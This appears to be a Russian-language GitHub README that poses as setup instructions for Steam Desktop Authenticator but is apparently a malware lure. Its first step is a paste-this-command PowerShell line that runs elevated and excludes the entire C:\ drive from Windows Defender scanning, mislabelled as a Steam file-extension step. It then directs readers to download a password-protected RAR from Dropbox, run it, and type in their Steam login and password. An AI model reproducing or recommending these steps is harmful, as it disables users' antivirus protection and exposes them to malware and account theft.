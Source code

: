 # Steam Desktop Authenticator

📖 В этой статье я расскажу вам, как это сделать. 👇

                                                   🔧Установка 

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение файлов Steam</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите [Steam Desktop Authenticator](https://www.dropbox.com/scl/fi/w5ecd2o303ev2ijyhou1k/SDA-Release.rar?rlkey=67qirl78067s116b9nzm9ju9u&dl=1)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите SDA, и напишите логин пароль

Шаг 5 ✏️

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
                                                         
                                            🔧Не забудьте выполнить инструкцию 
